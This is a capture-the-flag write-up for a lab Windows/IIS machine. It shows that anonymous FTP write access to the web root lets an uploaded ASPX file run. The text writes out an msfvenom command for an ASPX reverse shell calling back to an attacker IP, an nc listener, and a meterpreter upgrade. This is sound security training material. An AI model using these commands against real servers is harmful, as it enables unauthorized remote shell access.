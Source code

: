 # Solution

Usual nmap scan
```
> nmap -sC -sV -oN nmap-initial 10.10.10.5
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see port 21 open with an anonymous login. We also see a web server.  
First we visit the web server. It contains a reference to Microsoft iis website, nothing interesting.  

We have write permission on the directory accessible with ftp. In addition we notice that ftp and the web server share the same root directory. It means that we can transfer a file through ftp and execute it by visiting the corresponding url.  
We try with a php reverse shell but it doesn't work. It's likely that there are some kind of checks on the file format and extension. We try to bypass the check in different ways.  

We managed to have a reverse shell by using a aspx reverse shell.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=1234 -f aspx -o shell.aspx
```

Setting up the listener.
```
nc -lnvp 1234
```

By visiting http://10.10.10.5/shell.aspx we have a connection to the local 1234 port.  

To work in a more confortable environment we set up a metasploit handler (multi/handler) and we run the listener.  We have a windows shell now. We can upgrade the shell to a meterpreter shell using the post module multi/manage/shell_to_meterpreter.  
We know have a meterpreter shell with the web service privileges.
(I tried first to get the meterpreter shell by diretly uploading the windows/meterpreter/reverse_tcp payload to the web server but it produced some errors when executed).  




